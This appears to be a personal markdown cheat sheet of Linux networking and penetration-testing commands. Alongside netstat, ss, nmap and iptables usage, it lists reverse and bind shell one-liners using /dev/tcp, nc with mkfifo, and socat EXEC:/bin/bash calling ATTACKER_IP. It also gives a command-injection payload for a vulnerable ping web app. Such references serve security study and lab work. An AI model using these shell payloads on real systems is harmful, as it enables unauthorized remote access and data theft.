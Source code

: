 # Network command

* Display the routing table
```bash
route
```

* Check network throughput on different interfaces
```bash
cat /proc/net/dev
```

* Interactive bash shell
```bash
/bin/bash -i > /dev/tcp/IP/PORT 0<&1 2>&1
```

* Another way to get bind shell with command execution (vulnerable `ping` web app)
```bash
192.168.0.18; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1  | nc -lp 9999 > /tmp/f
```

* One liner reverse shell with `nc`
```bash
# Adding a newline to the vulnerable script
echo >> vulnerable.sh 
echo "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1  | nc ATTACKER_IP 1337 > /tmp/f"
```

* TCP scanning with `nc`. `-w` specifies timeout in seconds. 
```bash
nc -nvv -w 1 -z 127.0.0.1 1000-2000
```
* Transfer file with `nc`! `-n` for numeric only IP addresses.
```bash
# Receiver
nc -nlvp 1337 > recv.txt

# Sender
nc 127.0.0.1 1337 < file.txt
```


# Network tool
## `netstat`

* `-r` Show current system's routing table
```bash
netstat -r
```

* `-a` Show all connection, `-t` for TCP connection, `-u` for UDP connection
```bash
netstat -atu
```

* `-l` Show only listening connection.
```bash
netstat -lt
```

* `-p` Show the process and PID that is running to handle the network connection
```bash
netstat -p
```

* `-n` Show the numeric port number instead of trying to dynamically determine the symbolic host
```bash
netstat -n
```

* Restart network manager in kali
```bash
#!/bin/bash
sudo service networking restart
sudo service network-manager restart
```

* nmap -A: Aggressive mode
```bash
nmap -A IP
```

* Scanning all services given a server with `nmap`
```bash
nmap -A 192.168.0.1
```

* `-sV` for detecting version, `-p-` for all ports, `-T4` for fast execution time.
```
nmap -p- -T4 -sV IP_ADDR
```

* `socat`, SOcket CAT, `TCP4` specifies the protocol, `-` is used to transfer data between `stdio` and remote host, allowing keyboard interaction with the shell
```bash
socat - TCP4:127.0.0.1:8080
```

* Bind a port to listen using `socat`, `STDOUT` redirects output to terminal
```bash
sudo socat TCP4-LISTEN:443 STDOUT
```

* File transfer with `socat`, `fork` will fork a child process whenever a client connects to the server, and will run indefinitely until killed. `file` is the option to specify which file to transfer. `create` will create the file if it doesn't exist.
```bash
server:
socat TCP4-LISTEN:8888,fork file:secret.txt

client:
socat TCP4:localhost:8888 file:receive.txt,create
```

* Reverse shell with `socat`, `-d -d` for more verbose output, `EXEC` is the option to run a target executable after client connects to it.
```bash
attacker:
socat -d -d TCP4-LISTEN:1337 STDOUT

victim:
socat TCP4:ATTACKER_IP:1337 EXEC:/bin/bash
```

* Encrypted reverse shell with `socat`. After generating a self-signed cert with `openssl`, we will use `cert` option to indicate our desire certificate to use for encryption, and `verify=0` to disable SSL certificate verification since it is a self-signed cert. 
```bash
attacker:
socat OPENSSL:VICTIM_IP:1337,verify=0

victim:
socat OPENSSL-LISTEN:1337 cert=server.pem, verify=0, fork EXEC:/bin/bash
```

* Show possible mount point given a server that is running NFS
```bash
showmount -e 192.168.0.1
```

* Show IP table rules
```bash
sudo iptables-save
```

* Disable a network interface card
```bash
sudo ifconfig eth0 down
```

* Enable a network interface card
```bash
sudo ifconfig eth0 up
```

* `ss`, socket statistic, `-a` shows all listening and non-listening sockets, `-n` displays the numeric IP, and does not resolve service name, `-t` specifies TCP sockets, `-l` displays only listening sockets, `-p` shows the process that is using the socket

* Display active network connection with `netstat` or `ss`, `-a` lists all connection, `-n` display the numeric value of address and port, `-p` display the process that's using the connection
```bash
ss -anp
```

## Firewall Enumeration
* To show firewall rules in Linux, we must have root privilege to use `iptables`. But, we might able to find some saved iptable rules in `/etc/*` using `grep`. `-H` shows the file name of a match, `-s` suppress error message
```bash
grep -Hs iptables /etc/*
```

